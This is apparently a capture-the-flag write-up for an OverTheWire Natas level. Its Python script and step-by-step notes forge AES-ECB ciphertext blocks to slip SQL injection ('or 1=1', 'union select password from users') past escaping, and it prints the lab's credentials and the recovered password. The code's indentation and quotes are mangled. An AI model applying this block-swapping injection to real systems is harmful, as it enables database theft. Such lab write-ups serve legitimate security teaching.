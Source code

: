 # natas29

Chosen-plaintext attack in AES-ECB mode and SQL injection

```python
import httplib,sys,binascii
from base64 import b64encode,b64decode
from urllib import quote,unquote

def check(query):
query=quote(query)
httpClient = None
try:
userAndPass = b64encode(b”natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’}
httpClient = httplib.HTTPConnection(‘natas28.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?query=’+query, headers=headers)
response = httpClient.getresponse()
#responseData = response.read()
result = response.getheader(‘Location’)
return binascii.b2a_hex(b64decode(unquote(result[result.find(‘query=’)+6:])))
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def outputhex(str):
i=0
newStr=”
for c in str:
i+=1
if i%32==0:
newStr+=c+’ ‘
else:
newStr+=c
print newStr

def xorInside(str1,str2):
first=str1.decode(‘hex’)
second=str2.decode(‘hex’)
newStr=”
for i in range(0,16):
newStr+= chr(ord(first[i])^ord(second[i]))
return binascii.b2a_hex(newStr)

def autocheck():
a=”
b=”
for i in range(1,80):
a+=’a’
b+=’b’
outputhex(check(a))
outputhex(check(b))

autocheck()
```

Query process:

1.Message = Escape(Original_input)
2.Message_to_encrypt = Prefix[38] | Message | Suffix[30] | Padding(PKCS#7?)
3.Encrypted_message = AES-ECB(Message_to_encrypt)
4.Message_to_send = Base_64(Encrypted_message) 5.http://natas28.natas.labs.overthewire.org/search.php/index.php?query=Message_to_send

How to get a “‘ or 1=1 — “:

1. query “aaaaaaaaaa”+”x or 1=1 — bbbb”+”aa” (a,b and x can be any normal char)
   1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2 c0872dee8bc90b1156913b08a223a39e 2915fe89fae53f38df4c947acd65adde ce82a9553b65b81280fb6d3bf2900f47 75fd5044fd063d26f6bb7f734b41c899
2. query “aaaaaaaaa” +”‘ or 1=1 — bbbb”+”aa”
   1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2 11dbb80ae02425dc9726bffd1803160e 42094fd365d8e79ba6bbbe58b962416b ce82a9553b65b81280fb6d3bf2900f47 75fd5044fd063d26f6bb7f734b41c899
   since ‘ is replaced to \’, I removed one “a” in the left string to make the \ be in the same group of the nine “a”. The new message is
   Prefix[32] | Prefix[6] + “aaaaaaaaa” + “\” | “‘ or 1=1 — bbbb” | “aa” + Suffix[30] (No padding because the last group is full)
   As a result, the encryption of “‘ or 1=1 — bbbb” is 42094fd365d8e79ba6bbbe58b962416b
3. place it as the fourth group in the first query instead of the previous one, base64 the result and send it

---

1. try “‘ union select 1 from users — ” (“aaaaaaaaa”+”‘ union select 1″+” from users — b”+”bbbbbbbbbbbbbbbb”+”aa”)
   return 1, which means that the table “users” exists
2. try “‘ union select password from users — ” (“aaaaaaaaa”+”‘ union select p”+”assword from use”+”rs — bbbbbbbbbb”+”aa”)
   got the password!

```python
import httplib,sys,binascii
from base64 import b64encode,b64decode
from urllib import quote,unquote

def check(query):
query=quote(query)
httpClient = None
try:
userAndPass = b64encode(b”natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’}
httpClient = httplib.HTTPConnection(‘natas28.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?query=’+query, headers=headers)
response = httpClient.getresponse()
#responseData = response.read()
result = response.getheader(‘Location’)
return binascii.b2a_hex(b64decode(unquote(result[result.find(‘query=’)+6:])))
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def outputhex(str):
i=0
newStr=”
for c in str:
i+=1
if i%32==0:
newStr+=c+’ ‘
else:
newStr+=c
print newStr
print “<br/>”

def xorInside(str1,str2):
first=str1.decode(‘hex’)
second=str2.decode(‘hex’)
newStr=”
for i in range(0,16):
newStr+= chr(ord(first[i])^ord(second[i]))
return binascii.b2a_hex(newStr)

def autocheck():
a=”
b=”
for i in range(1,80):
a+=’a’
b+=’b’
outputhex(check(a))
outputhex(check(b))

#sql=”aaaaaaaaa”+”‘ or 1=1 — bbbb”+”bbbbbbbbbbbbbbbb”+”bbbbbbbbbbbbbbbb”+”aa”
#sql= “aaaaaaaaa”+”‘ union select 1″+” from users — b”+”bbbbbbbbbbbbbbbb”+”aa”
sql= “aaaaaaaaa”+”‘ union select p”+”assword from use”+”rs — bbbbbbbbbb”+”aa”

print binascii.b2a_hex(sql)
outputhex(check(sql))

sqlinj=check(sql)
sqlinj =’1be82511a7ba5bfd578c0eef466db59cdc84728fdcf89d93751d10a7c75c8cf2c0872dee8bc90b1156913b08a223a39e’

#sqlinj+=’42094fd365d8e79ba6bbbe58b962416b’+’88a7bd72cda247dae1c3219f054b2e60’+’88a7bd72cda247dae1c3219f054b2e60′
#sqlinj+=’9ae5ffe4df58364079bd3029586df0d6’+’2730431c345fce894d727ac6b56a6762’+’88a7bd72cda247dae1c3219f054b2e60′
sqlinj+= ‘f89dd8dbec15c6a6d9993a3dc7b7a308’+’86951754f7ad56454eb5d5b6768ee646’+’b65a5da3890587484e1107767874df16’

sqlinj+=’ce82a9553b65b81280fb6d3bf2900f4775fd5044fd063d26f6bb7f734b41c899′
print quote(b64encode(sqlinj.decode(‘hex’)))

#autocheck()
```

Password: airooCaiseiyee8he8xongien9euhe8b
